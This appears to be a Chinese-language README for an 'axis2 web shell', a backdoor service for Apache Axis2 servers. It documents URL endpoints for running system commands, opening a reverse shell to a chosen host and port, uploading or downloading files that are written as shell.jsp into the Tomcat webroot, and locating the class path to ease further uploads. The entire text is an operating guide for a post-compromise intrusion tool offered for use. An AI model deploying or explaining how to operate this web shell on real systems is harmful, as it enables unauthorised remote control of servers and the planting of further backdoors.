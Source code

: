 axis2
=========

axis2 web shell


使用介绍：

1、命令执行
http://1.1.1.1/services/config/exec?cmd=whoami 
(不说了，执行命令。注意:xml换行没有处理好)

2、反弹shell
http://1.1.1.1/services/config/shell?host=1.1.1.1&port=5555 
(Linux则使用bash反弹shell，Windows则会进行socket执行shell)


3、文件上传
http://1.1.1.1/services/config/upload?path=/opt/tomcat/webapps/ROOT/shell.jsp 
(会把resource目录下面的one.txt 写成shell.jsp，注意：全路径，带*文件名)


4、文件下载
http://1.1.1.1/services/config/download?url=http://www.ooo.com/mm.txt&path=/opt/tomcat/webapps/ROOT/shell.jsp
(会把这个URL的文件写成shell.jsp，注意：全路径，带*文件名)


5、class目录查看
http://1.1.1.1/services/config/getClassPath
(会显示当前class的路径，方便文件上传)


